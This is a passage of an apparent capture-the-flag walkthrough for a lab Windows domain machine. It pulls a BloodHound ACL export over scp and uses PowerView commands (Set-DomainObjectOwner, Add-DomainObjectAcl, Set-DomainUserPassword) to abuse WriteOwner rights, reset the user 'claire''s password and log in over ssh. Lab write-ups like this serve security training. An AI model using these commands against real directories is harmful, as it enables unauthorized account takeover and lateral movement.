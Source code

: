 ```bash
Privilege Name                Description                    State                                                           
============================= ============================== =======                                                         
SeMachineAccountPrivilege     Add workstations to domain     Enabled                                                         
SeLoadDriverPrivilege         Load and unload device drivers Enabled                                                         
SeShutdownPrivilege           Shut down the system           Enabled                                                         
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled                                                         
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled    
```

There is a file inside an audit folder:

```bash
$ scp tom@10.10.10.77:'/C:/Users/tom/Desktop/AD Audit/BloodHound/Ingestors/acls.csv' .
tom@10.10.10.77's password: 
acls.csv
```

Open the file and search for `tom`:

![](../assets/Pasted%20image%2020241124084112.png)

And `tom` has `WriteOwner` permissions over `claire`, so:

The ability to set the object owner is abusable by `Set-DomainObjectOwner`.
The ability to write to the DACL is abusable by `Add-DomainObjectAcl`.
The ability to reset a user’s password is abusable by `Set-DomainUserPassword`.

```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1                                                   
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom                       
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword                                 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $pass = ConvertTo-SecureString 'Sup3rS3cr3t!' -AsPlainText -Force               
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $pass
```

Now `ssh` with `claire`:

```bash
$ ssh claire@10.10.10.77
Microsoft Windows [Version 6.3.9600]                                                                                         
(c) 2013 Microsoft Corporation. All rights reserved.                                                                         

claire@REEL C:\Users\claire>whoami
claire
```
